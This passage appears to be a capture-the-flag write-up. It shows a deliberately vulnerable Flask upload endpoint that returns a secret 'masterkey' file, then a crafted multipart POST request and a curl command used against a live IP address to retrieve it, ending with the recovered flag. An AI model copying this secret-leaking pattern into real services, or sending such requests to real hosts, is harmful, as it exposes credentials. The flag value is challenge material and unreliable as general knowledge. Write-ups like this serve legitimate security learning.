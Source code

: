 

```python
app = Flask(__name__)

@app.route('/api/upload', methods=['POST'])
def upload_file():
    content_type = request.content_type

    if not content_type:
        return jsonify({"error": "No Content-Type header found."}), 400

    if not content_type.startswith('multipart/form-data'):
        return jsonify({"error": "Invalid content type. Content type must be 'multipart/form-data'."}), 400

    if not request.files:
        return jsonify({"error": "No file part in the request."}), 400

    file = next(iter(request.files.values()))

    if file.filename == '':
        return jsonify({"error": "No file selected for upload."}), 400

    try:
        with open('/tmp/masterkey.txt', 'r') as file_obj:
            masterkey = file_obj.read().strip()
    except FileNotFoundError:
        masterkey = "Masterkey file not found."

    return jsonify({"message": f"Uploaded file: {file.filename}", "Masterkey": masterkey}), 200

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

### so it's reqiure **`post`** method and **` multipart/form-data`** content type :


<img width="1208" height="475" alt="image" src="https://github.com/user-attachments/assets/dc7c3668-0c0d-497d-a96e-e8607a7762a4" />

### to add file part in request 

- edit content type to : **`Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxYzAbC123456`**
- set request body 

```http
POST /api/upload HTTP/1.1
Host: 3.255.232.107
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxYzAbC123456
Content-Length: 201

------WebKitFormBoundaryxYzAbC123456
Content-Disposition: form-data; name="file"; filename="hacked.txt"
Content-Type: text/plain

This is a test file content
------WebKitFormBoundaryxYzAbC123456--
```


<img width="1292" height="569" alt="image" src="https://github.com/user-attachments/assets/17950a4c-157f-439e-87f2-0e0f487518fb" />



## or using **`curl`**

```
curl -X POST http://3.255.232.107/api/upload -F "file=@C:\Users\Dell\Downloads\test.txt"
```

- **`-F`** : mean `multipart/form-data`


<img width="1285" height="127" alt="image" src="https://github.com/user-attachments/assets/15d8d2cf-10fb-46aa-9bd2-8503c436206c" />


```
54e9112f7196246d4fe8b6946deb1bba
```











